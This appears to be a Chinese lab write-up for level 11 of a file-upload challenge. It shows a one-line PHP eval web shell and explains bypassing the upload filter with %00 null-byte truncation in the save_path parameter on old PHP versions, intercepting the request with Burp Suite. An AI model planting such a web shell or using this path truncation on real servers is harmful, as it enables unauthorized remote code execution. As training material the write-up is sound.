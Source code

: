 ## 解题wp(By:独立团孙德胜Alan)
本pass可以通过增加点的方式绕过，注意，此Pass需要修改PHP环境为5.2.17

## 1.打开第十一关

![](./img/1.png)

## 2.上传一个普通的shell.php文件

```
<?php @eval($_POST('Alan'));?>
```

![](./img/2.png)



## 3.分析代码

##### ![](./img/3.png)

##### $img_path = $_GET['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext

##### //$_GET和之前的$_POST差不多，主要是可以进行抓包修改

##### 然后通过

##### move_uploaded_file($temp_file,$img_path)函数利用

##### %00截断

##### 截取的数据包，把标记的内容修改成../upload/test.php%00。这样实际是将1.jpg的内容移动到test.php文件中了。

##### 因为$img_path变量是../upload/test.php%00xxx.jpg。在php版本<5.3.4且magic_quotes_gpc=off时

##### 以上为服务器phpinfo中的信息。../upload/test.php%00xxx.jpg会被认为../upload/test.php

##### 利用move_uploaded_file函数，临时路径下的jpg文件内容写入../upload/test.php中

## 4.我们可以使用Burpsutie抓包，使用%00绕过

![](./img/4.png)

